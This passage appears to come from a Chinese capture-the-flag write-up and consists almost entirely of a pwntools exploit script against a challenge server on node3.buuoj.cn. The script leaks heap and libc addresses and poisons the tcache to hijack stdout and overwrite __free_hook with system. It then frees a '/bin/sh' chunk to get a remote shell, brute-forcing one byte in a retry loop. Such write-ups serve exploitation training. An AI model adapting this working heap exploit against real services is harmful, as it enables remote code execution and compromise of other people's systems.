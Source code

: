 ```
    heap_base = heap_leak * 0x1000
    log.success('heap base: ' + hex(heap_base))

    edit(b'arttnba3arttnba4')
    free()
    edit(p64(heap_leak ^ (heap_base + 0x10)))
    new(0x80, b'arttnba3')
    new(0x80, b'\x00\x00' * (0xe + 0x10 + 9) + b'\x07\x00')
    free()

    new(0x40, (b'\x00\x00' * 3 + b'\x01\x00' + b'\x00\x00' * 2 + b'\x01\x00').ljust(0x70, b'\x00')) 
    new(0x30, b'\x00'.ljust(0x30, b'\x00'))
    new(0x10, p64(0) + b'\xc0' + p8(hit_byte * 0x10 + 6)) 
    new(0x40, p64(0xfbad1800) + p64(0) * 3 + b'\x00')

    libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x1e4744
    new(0x10, p64(libc_base + libc.sym['__free_hook']))
    new(0x70, p64(libc_base + libc.sym['system']))
    new(0x10, b'/bin/sh\x00')
    free()
    p.interactive()

if __name__ == '__main__':
    count = 1
    i = 0
    while True:
        try:
            print('the no.' + str(count) + ' try')
            print(b'try: ' + b'\xc0' + p8(i * 0x10 + 6))
            p = remote('node3.buuoj.cn', 26018)
            exp(i)
        except Exception as e:
            print(e)
            p.close()
            i = i + 1
            count = count + 1
            i = i % 16
            continue 
```

运行即可get shell
